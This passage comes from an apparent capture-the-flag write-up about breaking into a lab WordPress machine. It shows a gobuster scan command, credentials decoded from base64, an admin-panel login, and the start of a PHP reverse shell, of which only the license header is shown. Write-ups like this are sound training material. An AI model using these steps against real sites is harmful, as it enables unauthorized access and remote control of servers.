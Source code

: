 And we get tons of directories! we see repeating a lot the`wp` keyword, and that's because it's a wordpress site! So now we know what is our target, but let's get more knowledge about the directories of the page, since we got a dictionary from the `robots.txt` file, we can do another gobuster scan:
`gobuster dir --url http://10.10.32.149 -t 40 -w fsocity.dic -no-error --output fsocietyScan.txt`

While that's finishing, let's go into some of this directories, let's go to license:
![mrrobot2](/images/mrrobot2.png)

And we found something funny, with a base 64 attached, who is the script kitty now huh? Let's get to decoding, I like this website for anything related to base64: https://www.base64decode.org/

The result of the decode is: `elliot:ER28-0652`

Giving us a user for the wordpress site, but let's not go to there yet, there's more to discover, so check those directories that gave us the gobuster scan.

Although I was seeing my scan of the `fsociety.dic` and I didn't knew why it was taking so long, but is because the dictionary is over 800000 WORDS LONG! So no way I'm going to scan through the whole dictionary, so I terminated the scan.

## Getting in-depth

Let's go to the wordpress admin panel (`/wp-admin`) and enter the elliot credentials, having acces to the panel!

On the bottom of the page we have the wordpress version, so let's make a quick google about if there's some exploits on that specific version of wordpress (4.3.1)

Giving us as a search result a exploit database link: https://www.exploit-db.com/exploits/50255 where it says it has a RCE vulnerability (Remote Code Execution) from the wordpress admin panel (which we have access to), but before everything let's poke around the admin panel.
![mrrobot3](/images/mrrobot3.png)

This gives us more information about the users that are available in the wordpress site, now let's get into exploiting.

## Exploit

As we already know, wordpress is built with PHP, that is a back-end programming language, meaning that handles the server side of things, so we need to find a way to upload a exploit that can give us a reverse shell, and there's a github repo with a php exploit here: https://github.com/pentestmonkey/php-reverse-shell

This is the exploit we are going to use:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
```